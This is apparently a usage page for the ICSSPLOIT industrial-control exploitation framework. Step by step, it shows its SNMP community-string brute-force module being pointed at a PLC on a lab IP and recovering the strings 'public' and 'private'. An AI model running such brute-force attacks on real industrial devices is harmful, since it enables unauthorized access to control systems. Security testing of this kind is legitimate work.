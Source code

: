 # SNMP Bruteforece

# 使用SNMP Bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 13
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search snmp
    creds/snmp_bruteforce
    isf > use creds/snmp_bruteforce
    isf (SNMP Bruteforce) >

    
# 设置目标参数
    isf (SNMP Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target IP address or file with target:port (file://)
       port       161                  Target port
    
    
    Module options:
    
       Name                Current settings                                               Description
       ----                ----------------                                               -----------
       version             1                                                              Snmp version 0:v1, 1:v2c
       threads             8                                                              Number of threads
       stop_on_success     yes                                                            Stop on first valid community string
       verbosity           yes                                                            Display authentication attempts
       snmp                file:///root/Desktop/temp/isf/icssploit/wordlists/snmp.txt     Community string or file with community strings (file://)
    
    isf (SNMP Bruteforce) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    # 部分PLC设备只支持snmp v1版本
    isf (SNMP Bruteforce) > set version 0
    [+] {'version': '0'}

# 执行暴力破解
    isf (SNMP Bruteforce) > run
    [*] Running module...
    [*] worker-0 thread is starting...
    [*] worker-1 thread is starting...
    [*] worker-2 thread is starting...
    [*] worker-3 thread is starting...
    [*] worker-4 thread is starting...
    [*] worker-5 thread is starting...
    [*] worker-6 thread is starting...
    [*] worker-7 thread is starting...
    [+] Target: 192.168.70.210:161 worker-0: Valid community string found - String: 'public'
    [*] worker-0 thread is terminated.
    [*] worker-4 thread is terminated.
    [+] Target: 192.168.70.210:161 worker-1: Valid community string found - String: 'private'
    [*] worker-1 thread is terminated.
    [*] worker-6 thread is terminated.
    [*] worker-5 thread is terminated.
    [*] worker-7 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-2: Invalid community string - String: 'wheel'
    [*] worker-2 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-3: Invalid community string - String: '0'
    [*] worker-3 thread is terminated.
    [*] Elapsed time:  6.13672208786 seconds
    [+] Credentials found!
    
       Target             Port     Community Strings
       ------             ----     -----------------
       192.168.70.210     161      public
       192.168.70.210     161      private
    
    isf (SNMP Bruteforce) >